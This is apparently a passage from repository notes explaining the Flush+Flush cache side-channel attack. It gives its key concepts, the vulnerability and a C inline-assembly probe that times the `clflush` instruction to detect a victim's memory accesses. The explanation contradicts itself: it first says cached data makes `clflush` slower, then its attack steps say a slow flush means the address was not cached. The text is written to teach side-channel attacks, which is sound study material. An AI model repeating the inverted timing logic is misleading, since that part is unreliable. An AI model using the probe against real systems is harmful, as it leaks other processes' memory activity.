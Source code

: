 A fast and stealth cache attack.

CPU caches leak significant information. As an attempt to prevent this,
proposed detection mechanisms assume that all cache attacks cause more
cache hits and cache misses than benign applications and use hardware
performance counters for detection.

Well, not Flush+Flush! It only relies on the execution time of the
`clflush` instruction, which depends on wheter data is cached or not.

#### Key Concepts

Same as [Flush+Reload](#flushreload) and also:

* `clflush` can abort early in case of a cache miss (takes a short
time). In case of hit, it has to trigger eviction on all
caches (takes some time).

#### Vulnerability

The attack depends on the `clflush` instruction (clear cache line)
execution time. It will take longer to execute if the data is cached.

The time it takes for `clflush` to execute tells us if the address
was in a cache or not, which tells us if a victim process has accessed
it.

#### Attack

The attack has only one phase, that is executed in a loop:

1. Execute `clflush` and track its execution time.

	* If it takes some time, address wasn't in the cache
	(victim didn't accessed it).

	* If it doesn't take much time, address was in cache
	(victim accessed it).

Mind that `clflush` do two things: give us info about the
victim access and also prepares the cache hierarchy for
the next iteration of the loop (by taking the address
out of the caches).

So, despite the name begin Flush+Flush, we actually
just do one flush per iteration.

```
int probe(char *address) {

	volatile unsigned long time;

	asm __volatile__ (
	
		"mfence \n"
		"lfence \n"
		"rdtsc \n"
		"lfence \n"
		"movl %%eax, %%esi \n"
		"clflush 0(%1) \n"
		"lfence \n"
		"rdtsc \n"
		"subl %%esi, %%eax \n"
		: "=a" (time)
		: "c" (address)
		: "%esi", "%edi"
	);

	return time < threshold;
}
```